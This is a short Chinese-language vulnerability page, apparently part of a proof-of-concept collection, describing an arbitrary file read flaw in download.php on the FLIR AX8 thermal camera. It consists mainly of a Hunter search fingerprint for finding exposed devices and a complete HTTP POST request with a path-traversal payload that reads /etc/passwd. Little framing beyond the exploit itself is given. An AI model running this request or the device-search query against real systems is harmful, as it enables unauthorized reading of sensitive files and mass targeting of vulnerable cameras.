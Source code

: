 # FLIR-AX8热成像仪download.php存在任意文件读取漏洞

FLIR-AX8热成像仪download.php存在任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## hunter

```javascript
web.icon=="f4370ff0b4763e18159cd7cdf36a4542"
```

## poc

```javascript
POST /download.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ****
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

file=../../../etc/passwd
```

![image-20240927202649846](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272026907.png)
